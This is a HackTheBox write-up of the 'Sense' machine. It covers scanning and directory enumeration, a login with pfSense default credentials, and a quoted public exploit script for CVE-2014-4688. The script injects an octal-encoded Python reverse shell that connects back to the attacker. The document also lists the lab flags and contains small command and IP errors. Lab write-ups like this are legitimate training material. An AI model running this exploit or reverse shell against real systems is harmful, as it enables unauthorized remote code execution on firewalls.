

# Sense

## Reconnanisance

### nmap 
```
nmap -sV -sC -oA sense 10.129.228.132
```


- Open Port: 80 and 443
    - lighttpd 1.4.35
    - Port 80(HTTP) will redirect to Port 443(HTTPS)
- Check certificate on port 443
- No user name in CA


### Gobuster

```
gobuster dir -u https://10.129.228.132 -u /usr/share/wordlists/dirb/common.txt -k
```


```
gobuster dir -u https://10.129.228.132 -u /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -k
```
### Web Site

- Access https://10.129.228.132


- Access to index php, index html, xmlrpc and other result in gobuster

- index html file


- This is most interesting one until now.
- Check the burp request, I can find the comment said: 
```
<!--
<p>
    Connect to host via SSH: 
    <applet CODEBASE="." ARCHIVE="jta20.jar" CODE="de.mud.jta.Applet" WIDTH=55 HEIGHT=25>
	<param NAME="config" VALUE="applet.conf">
    </applet>
</p>
-->
```


- xmlrpc file


- index php file and other response code 301 path will 
1. redirect to login page 


2.  404 not found 


- Check the ```system-users.txt ``` 
- Here is a username: Rohit


- Check changelog.txt
- According to the changelog, I think the security update hasn't been finished yet.
- Only 2 of 3 vulnerabilities been patched.
- So, I think there is 1 patched hasn't been done.


- Then, I search about pfsense default password
- [pfsense default password login](https://www.tsmodelschools.in/pfsense-default-password-login/)


- Then use the credential: rohit / pfsense to login.


## Exploit

- searchsploit result 
- The most possible exploit code for version 2.1.3:
    - php/webapps/31263.txt
    - php/webapps/43560.py


- After research, there is a exploit code 
```43560.py
#!/usr/bin/env python3

# Exploit Title: pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
# Date: 2018-01-12
# Exploit Author: absolomb
# Vendor Homepage: https://www.pfsense.org/
# Software Link: https://atxfiles.pfsense.org/mirror/downloads/old/
# Version: <=2.1.3
# Tested on: FreeBSD 8.3-RELEASE-p16
# CVE : CVE-2014-4688

import argparse
import requests
import urllib
import urllib3
import collections

'''
pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
This script will return a reverse shell on specified listener address and port.
Ensure you have started a listener to catch the shell before running!
'''

parser = argparse.ArgumentParser()
parser.add_argument("--rhost", help = "Remote Host")
parser.add_argument('--lhost', help = 'Local Host listener')
parser.add_argument('--lport', help = 'Local Port listener')
parser.add_argument("--username", help = "pfsense Username")
parser.add_argument("--password", help = "pfsense Password")
args = parser.parse_args()

rhost = args.rhost
lhost = args.lhost
lport = args.lport
username = args.username
password = args.password


# command to be converted into octal
command = """
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("%s",%s));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
""" % (lhost, lport)


payload = ""

# encode payload in octal
for char in command:
	payload += ("\\" + oct(ord(char)).lstrip("0o"))

login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"

headers = [
	('User-Agent','Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0'),
	('Accept', 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'),
	('Accept-Language', 'en-US,en;q=0.5'),
	('Referer',login_url),
	('Connection', 'close'),
	('Upgrade-Insecure-Requests', '1'),
	('Content-Type', 'application/x-www-form-urlencoded')
]

# probably not necessary but did it anyways
headers = collections.OrderedDict(headers)

# Disable insecure https connection warning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

client = requests.session()

# try to get the login page and grab the csrf token
try:
	login_page = client.get(login_url, verify=False)

	index = login_page.text.find("csrfMagicToken")
	csrf_token = login_page.text[index:index+128].split('"')[-1]

except:
	print("Could not connect to host!")
	exit()

# format login variables and data
if csrf_token:
	print("CSRF token obtained")
	login_data = [('__csrf_magic',csrf_token), ('usernamefld',username), ('passwordfld',password), ('login','Login') ]
	login_data = collections.OrderedDict(login_data)
	encoded_data = urllib.parse.urlencode(login_data)

# POST login request with data, cookies and header
	login_request = client.post(login_url, data=encoded_data, cookies=client.cookies, headers=headers)
else:
	print("No CSRF token!")
	exit()

if login_request.status_code == 200:
		print("Running exploit...")
# make GET request to vulnerable url with payload. Probably a better way to do this but if the request times out then most likely you have caught the shell
		try:
			exploit_request = client.get(exploit_url, cookies=client.cookies, headers=headers, timeout=5)
			if exploit_request.status_code:
				print("Error running exploit")
		except:
			print("Exploit completed")
            
```


- Check how to use this exploit code 


- Execut exploit code 
```
python3 43560.py --rhost 10.129.228.135 --lhost 10.10.17.145 --lport 1336 --username rohit --password pfsense
```


- Reverse shell 


- Check user 
```
id
```


- Get user flag: ``` 8721327cc232073b40d27d9c17e7348b ```


- Get root flag: ``` d08c32a5d4f8c8b10e76eb51a69f1a86 ```


## Reference 


- [pfsense default password](https://www.tsmodelschools.in/pfsense-default-password-login/)
- [OpenCVE pfsense](https://www.opencve.io/cve?vendor=pfsense)
- [ExploitDB pfsense 2.1.3(CVE-2014-4688)](https://www.exploit-db.com/exploits/43560)
- [ExploitDB pfSense Community Edition 2.2.6 - Multiple Vulnerabilities](https://www.exploit-db.com/exploits/39709)
- [pfSense 2.1.3-RELEASE (amd64) Remote Command Execution](https://packetstormsecurity.com/files/145575/pfSense-2.1.3-RELEASE-amd64-Remote-Command-Execution.html)
- [pfSense CVE detail](https://www.cvedetails.com/cve/CVE-2014-4688/)
- [PfSense Vulnerabilities Part 2: Command Injection](https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/)
- [pfSense authenticated graph status RCE(CVE-2016-10709)](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/unix/http/pfsense_graph_injection_exec)


###### tags: `HackTheBox` `Easy` `linux` `pfsense` `cve-2014-4688` `searchsploit` `firewall`